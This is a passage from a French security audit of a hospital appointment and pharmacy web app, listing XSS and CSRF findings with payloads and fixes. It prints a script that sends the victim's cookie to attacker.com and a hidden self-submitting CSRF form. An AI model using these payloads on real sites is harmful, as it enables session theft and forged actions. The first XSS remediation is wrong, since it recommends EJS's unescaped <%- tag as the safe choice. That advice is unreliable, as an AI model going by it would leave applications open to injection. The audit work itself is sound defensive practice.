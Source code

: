 **Payload XSS** :
```html
<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie</script>
<img src="x" onerror="alert(document.cookie)">
```

**Remédiation** :
1. Utiliser le filtrage automatique d'EJS avec `<%- ... %>` au lieu de `<%= ... %>`
2. Implémenter une Content Security Policy (CSP)
3. Échapper manuellement les données avant affichage

## Cross-Site Request Forgery (CSRF)

### 1. Absence de Protection CSRF

**Localisation** : Tous les formulaires et requêtes POST (`views/add_appointment.ejs`, `views/add_doctor.ejs`, etc.)

**Description** : L'application ne vérifie pas que les requêtes POST proviennent d'utilisateurs légitimes, permettant à un attaquant de forcer un utilisateur à effectuer des actions à son insu.

**Exploitation** :
1. L'attaquant crée une page web contenant un formulaire qui soumet automatiquement une requête à l'application cible
2. Lorsqu'un utilisateur authentifié visite cette page, l'action s'exécute avec ses privilèges

**Code Vulnérable** :
```html
<form action="/store/add_med" method="POST">
    <input type="text" name="name" value="Medicament">
    <input type="text" name="price" value="100">
    <input type="submit" value="Ajouter">
</form>
```

**Attaque CSRF** :
```html
<img src="x" onerror="document.getElementById('csrf-form').submit()">
<form id="csrf-form" action="http://hospital-app.com/store/add_med" method="POST" style="display:none">
    <input type="text" name="name" value="Medicament Malveillant">
    <input type="text" name="price" value="999">
</form>
```

**Remédiation** :
1. Implémenter des tokens CSRF pour chaque formulaire
2. Vérifier le header Referer pour les requêtes sensibles
3. Utiliser le package csurf pour Express

## Exposition de Données Sensibles

### 1. Données Médicales Non Chiffrées
